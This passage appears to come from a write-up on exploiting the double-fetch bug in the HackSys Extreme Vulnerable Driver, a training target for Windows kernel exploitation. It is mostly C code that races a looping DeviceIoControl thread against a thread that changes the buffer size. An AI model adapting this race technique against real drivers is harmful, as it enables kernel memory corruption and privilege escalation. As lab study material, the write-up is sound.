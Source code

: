 Some people do fancy stuff like lock the threads to different CPU cores, or change process priority, but I didn't need this, and didn't want to since the code needs to run as a low privileged user and these APIs _should_ require privileges like `SeIncreaseBasePriorityPrivilege`.

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

typedef unsigned long long u64;

typedef struct _DOUBLE_FETCH {
    PVOID  Buffer;
    SIZE_T Size;
} DOUBLE_FETCH, *PDOUBLE_FETCH;

typedef struct _IRP_ARGS {
    HANDLE        hHEVD;
    DOUBLE_FETCH  pDoubleFetch;
} IRP_ARGS, *PIRP_ARGS;

#define ArraySize(x) (sizeof x / sizeof x[0])
#define IOCTL(Function) CTL_CODE (FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_DOUBLE_FETCH IOCTL(0x80D)

#define NUM_THREADS 5
#define BUFFER_SIZE 2500

DWORD WINAPI DeviceIoControlThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = 0x10;

        DWORD dwBytesReturned = 0;
        DeviceIoControl(
            pIRPArgs->hHEVD,
            HEVD_IOCTL_DOUBLE_FETCH,
            &pIRPArgs->pDoubleFetch,
            sizeof(DOUBLE_FETCH),
            NULL,
            0x00,
            &dwBytesReturned,
            NULL);

        Sleep(1);
    }

    return 0;
}

DWORD WINAPI SizeChaingingThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = BUFFER_SIZE;
        Sleep(1);
    }

    return 0;
}

```